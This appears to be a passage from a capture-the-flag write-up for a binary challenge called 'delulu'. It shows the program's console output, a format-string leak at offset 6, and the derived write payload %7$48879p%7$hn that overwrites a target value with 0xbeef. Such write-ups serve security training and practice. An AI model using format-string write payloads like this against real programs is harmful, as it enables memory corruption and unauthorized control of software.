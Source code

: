 ```console
    🟪🟪🟪🟪🟪🟪
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
      🟨🟨🟨🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨

The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> %6$p

[!] Checking.. 0x1337babe

[-] ALERT ALERT ALERT ALERT

```

The value at offset 6 is `0x1337babe`, and `0xbeef` is 48879 in decimal.  
Therefore, the payload should be `%7$48879p%7$hn` (the offset would shift since our input is greater than 8 bytes now)

```console
inte@debian-pc:~$ ./delulu 

      🟨🟨🟨
      🟨🟨🟨
      🟨🟨🟨
   🟨🟨🟨🟨🟨🟨
   🟨🟨🟨🟨🟨🟨
   🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨
🟨⬛️⬛️⬛️🟨⬛️⬛️⬛️🟨
🟨⬛️⬜️⬜️🟨⬛️⬜️⬜️🟨
🟨⬛️⬜️⬜️🟨⬛️⬜️⬜️🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨
⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
🟨🟨🟨⬛️⬛️⬛️🟨🟨🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨
🟪🟪🟪🟪🟪🟪🟪🟪🟪
    🟪🟪🟪🟪🟪
🟨🟪🟪🟨🟨🟨🟪🟪🟨
🟨🟪🟪🟨🟨🟨🟪🟪🟨
🟨🟨🟪🟨🟨🟨🟪🟨🟨
🟨🟨🟪🟨🟨🟨🟪🟨🟨
🟨🟨🟪🟨🟨🟨🟪🟨🟨
🟨🟨🟪🟪🟨🟨🟪🟪🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨
  🟪🟪🟪🟪🟪🟪
    🟪🟪🟪🟪🟪🟪
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
  🟨🟨🟨🟨🟨🟨🟨🟨
      🟨🟨🟨🟨
🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨

The D-LuLu face identification robot will scan you shortly!
```